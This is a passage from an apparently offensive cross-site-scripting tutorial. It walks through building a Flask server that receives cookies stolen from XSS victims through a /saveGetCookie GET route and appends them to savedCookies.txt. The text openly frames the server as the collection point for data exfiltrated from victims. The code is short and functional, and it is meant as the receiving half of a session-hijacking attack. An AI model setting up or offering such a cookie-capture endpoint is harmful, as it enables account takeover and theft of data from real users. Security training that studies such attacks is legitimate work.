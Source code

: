 ![](/img/OffensiveXSS1/capturedSessionStorage.PNG)

<h2>Setting up our data capture server</h2>
Now that we are able to exfiltrate data from victims and also are able to set storage items on the victim. Our next step would be to have a server setup to handle our incoming GET/POST requests. This helps us greatly while exfiltrating data as well!

For this we will use flask python API. For a quick start lets quickly check the quickstart guide: https://flask.palletsprojects.com/en/2.0.x/quickstart/
<br>
flaskServer.py:
```
from flask import Flask

app = Flask(__name__)

@app.route("/")
def hello_world():
    return "<p>Hello, World!</p>"
```
<br>
start the basic server with:
```
export FLASK_APP=flaskServer.py
flask run
```
<br>
It responds back with hello world so it definitely works. TIme to customize this server! First let's grab the incomming cookie from HTTP GET requests. For this we need to dig a little deeper in the quickstart page. Here we can find how to get data from requests. Further, we can also check how to write to a file: https://www.w3schools.com/python/python_file_write.asp
<br>

```
from flask import Flask
from flask import request

app = Flask(__name__)

@app.route("/saveGetCookie", methods=['GET'])
def saveGetCookie():
    cookie = request.args.get("a")
    f = open("savedCookies.txt", "a")
    f.write(cookie)
    f.close()
```
As show above we setup a small server. Let me explain what is happening here. We imported requests from flask so we can grab the incoming data.
Then we added a route named saveGetCookie and a method GET. This is so everything to our page /saveGetCookie will run the function below.
In the saveGetCookie function first line we will copy the argument's value a in the cookie variable. This means if a request looks like this "http://127.0.0.1:5000/saveGetCookie?a=thing" then the thing will go into the cookie variable.
Then we open a file called savedCookies and write the cookie inside it.
